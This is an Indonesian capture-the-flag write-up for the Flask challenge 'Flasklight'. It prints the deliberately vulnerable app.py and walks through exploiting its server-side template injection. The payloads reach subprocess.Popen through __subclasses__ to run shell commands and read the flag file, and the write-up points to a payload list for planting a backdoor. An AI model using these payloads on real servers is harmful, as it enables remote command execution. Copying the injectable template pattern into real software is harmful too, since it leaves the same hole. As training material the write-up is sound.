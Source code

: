 <h3>Flasklight</h3>

<p>Diberikan sebuah website berbasis python Flask.</p>

<img src="./assets/main.png">

Jika dilihat pada page source terdapat clue pertama.

<img src="./assets/page-source.png">

Untuk soal ini saat peserta melihat web tersebut maka mindset pertama yang muncul adalah SSTI (Server-side Template Injection). Maka untuk percobaan pertama, peserta dapat melakukan antara 2 hal:

* {{7*7}}
* {{config}}

<img src="./assets/config.png">

Dalam config tersebut, terdapat clue berikutnya yakni flag terdapat di dalam dir yang sama dengan aplikasi. Namun untuk mendapatkan flag, tidak dapat hanya menggunakan module **File** karena nama file tidak biasa (bukan **flag**).

Untuk tahap fuzzing, beberapa peserta akan mendapat beberapa 500 (Internal Server Error) disaat seharusnya payload sudah benar. Hal ini disebabkan karena adanya beberapa blacklist yang tidak ketat. Berikut source code dari **app.py**:

```python
from flask import Flask, request, render_template_string, abort

app = Flask(__name__)
app.secret_key = 'CCC{f4k3_Fl49_:v} CCC{the_flag_is_in_this_dir}'
result = ["CCC{Fl49_p@l5u}", "CSC CTF 2019", "Welcome to CTF Bois", "CCC{Qmu_T3rtyPuuuuuu}", "Tralala_trilili"]
@app.route("/")
def search():
  global result
  blacklist = ['url_for', 'listdir', 'globals']
  search = request.args.get('search') or None
  if search is not None:
    for black in blacklist:
      if black in search:
        abort(500)
  if search in result:
    result = search
    return render_template_string('''<!DOCTYPE html>
<html>
<head>
  <title>Flasklight</title>
</head>
<body>
  <marquee><h1>Flasklight</h1></marquee>
  <h2>You searched for:</h2>
  <h3>%s</h3>
  <br>
  <h2>Here is your result</h2>
  <h3>%s</h3>
</body>
</html>''' % (search, result))
  elif search == None:
    return render_template_string('''<!DOCTYPE html>
<html>
<head>
  <title>Flasklight</title>
</head>
<body>
  <marquee><h1>Flasklight</h1></marquee>
  <h2>You searched for:</h2>
  <h3>%s</h3>
  <br>
  <h2>Here is your result</h2>
  <h3>%s</h3><br>
  <!-- Parameter Name: search -->
  <!-- Method: GET -->
</body>
</html>''' % (search, result))
  else:
    result = []
    return render_template_string('''<!DOCTYPE html>
<html>
<head>
  <title>Flasklight</title>
</head>
<body>
  <marquee><h1>Flasklight</h1></marquee>
  <h2>You searched for:</h2>
  <h3>%s</h3>
  <br>
  <h2>Here is your result</h2>
  <h3>%s</h3>
</body>
</html>''' % (search, result))

if __name__ == "__main__":
  app.run(host="0.0.0.0", port=9000)
```

Dapat dilihat bahwa blacklist yang ada:
* url_for
* listdir
* globals

Dengan begitu, peserta memerlukan cara lain untuk mendapatkan flag. Ada 2 intended solution dari pembuat soal:
* Menggunakan subclass **subprocess.Popen** untuk mengeksekusi shell
* Menggunakan module **File** untuk write backdoor dan mendapatkan shell

Untuk solusi kedua, peserta dapat menggunakan payload yang ada di <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection">link</a>.

Untuk solusi pertama, payload yang dapat peserta gunakan adalah:
> {{''.__class__.__mro__[2].__subclasses__()[243]('ls', shell=True, stdout=-1).communicate()}}

<img src="./assets/popen-ls.png">

Dan tinggal membaca flag.
> {{''.__class__.__mro__[2].__subclasses__()[243]('cat coomme*', shell=True, stdout=-1).communicate()}}

<img src="./assets/popen-flag.png">

Flag: CCC{just_a_simple_blacklist_right?still_easy_leh}